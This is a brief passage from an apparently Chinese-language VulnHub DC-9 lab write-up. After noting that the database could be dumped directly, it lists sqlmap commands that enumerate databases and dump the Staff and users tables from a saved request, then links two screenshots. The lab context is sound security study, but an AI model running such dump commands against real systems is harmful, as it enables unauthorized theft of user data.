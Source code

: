 运气挺好,直接拖库
```bash
sqlmap -r 1.txt --dbs
sqlmap -r 1.txt -D Staff --dump
sqlmap -r 1.txt -D users --dump
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC9/5.png)

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC9/6.png)
